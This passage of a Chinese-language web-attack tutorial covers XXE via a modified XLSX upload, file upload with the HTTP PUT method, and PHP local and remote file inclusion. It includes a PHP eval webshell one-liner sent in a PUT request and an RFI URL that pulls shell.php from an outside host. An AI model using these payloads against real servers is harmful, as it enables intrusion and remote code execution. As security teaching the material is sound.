 ```
    <pageMargins left="0.7" right="0.7" top="0.75" bottom="0.75" header="0.3" footer="0.3"/>
    <pageSetup paperSize="9" orientation="portrait" r:id="rId1"/>
</worksheet>

```  
  
还是定义了外部实体test并且引用，在<v>  
标签中。  
  
5、修改后，将文件夹重新压缩成ZIP文件，再改后缀为xlsx。  
  
6、打开文件时会显示文件部分内容有问题，是否恢复，点否即可。  
  
如果服务器允许解析XML外部实体，上传后观察响应，是否返回内容，也不排除盲的情况，可以将定义的外部实体内容修改为自己的dnslog地址进行测试。  
### 使用PUT上传文件  
  
如果服务器允许PUT方法，即使没有上传点，也可以进行文件上传，如下请求：  
```
PUT /images/test.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php @eval($_POST[123]); ?>

```  
  
可以通过OPTIONS方法向服务器发送预检请求，判断是否允许PUT方法。  
##  文件包含   
  
文件包含漏洞主要出现在PHP开发的Web应用中，在开发的时候，有很多地方会用到相同的代码，每次都重复写一遍太麻烦，为了方便，会使用文件包含函数直接包含代码文件，如果文件包含函数对包含的文件没有进行过滤和校验，就会造成文件包含漏洞。  
```
include()：包含文件不存在或出错，程序继续运行。
require()：包含文件不存在或出错，程序终止运行。
include_once()：如果相同的文件已被包含，不再进行二次包含操作。
require_once()：如果相同的文件已被包含，不再进行二次包含操作。

```  
  
文件包含又分为本地包含（LFI）和远程包含（RFI），包含路径用相对路径或绝对路径都可以，RFI需要PHP配置allow_url_include=on。  
```
LFI：https://example.com/index.php?file=../../upload/shell.php
RFI：https://example.com/index.php?file=https://test.com/upload/shell.php

```  
### 利用文件包含漏洞执行WebShell  
  
在防御文件上传攻击时，服务器使用了白名单校验，但是，如果服务器存在文件包含漏洞的话，攻击者依然可以执行WebShell获取服务器权限。  
  
制作图片马，或其他包含恶意代码的合法文件上传至服务器绕过白名单校验，通过对该文件进行包含，让服务器去执行，PHP在执行include()或require()时，不会验证后缀，只会读取内容，如果是PHP代码，则会使用PHP解释器执行。  
### 通过写入日志执行WebShell  
  